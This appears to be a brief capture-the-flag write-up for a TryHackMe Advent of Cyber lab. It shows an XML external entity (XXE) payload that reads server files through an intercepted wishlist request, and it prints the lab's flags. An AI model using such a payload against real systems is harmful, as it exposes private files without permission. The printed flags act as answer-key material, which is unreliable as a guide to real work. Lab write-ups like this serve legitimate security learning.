

#  Day 5: SOC-mas XX-what-ee?


After going to `10.10.151.8`, I opened Burpsuite and turned on Intercept option.

When clicking on, Add to wishlist on a gift, I saw XML code in the intercepted request. I inject the following code:-

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

Which showed me a popup like this:-



I kept iterating through the `wishnum.txt` files and on the 15th file I obtained a flag: `THM{Brut3f0rc1n6_mY_w4y}`

Then I inspected the CHANGELOG file, and got the other flag: `THM{m4y0r_m4lw4r3_b4ckd00rs}`
